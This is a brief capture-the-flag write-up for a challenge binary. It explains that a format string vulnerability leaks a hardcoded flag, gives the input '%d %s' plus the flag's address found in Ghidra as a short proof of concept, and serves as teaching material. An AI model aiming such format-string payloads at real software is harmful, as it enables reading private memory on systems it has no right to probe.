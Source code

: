# Solution
The challenge revolves around a format string vulnerability, and the flag is a harcoded string. The flag can be easily
dumped once its address is known.

## Quick PoC
```
# Replace port and ip with real ones
nc 127.0.0.1 2025

# Enter "%d %s" when asked for username
# Enter "4210848" when asked for answer
# Get the flag
```

## Locating the address
- Open the flagless binary `one-hundred-percent-wrong-using-dummy-flag` using Ghidra
- Inspect strings and locate flag address (`0x4040a0 == 4210848`)

  ![](./locating-flag-addr.png)

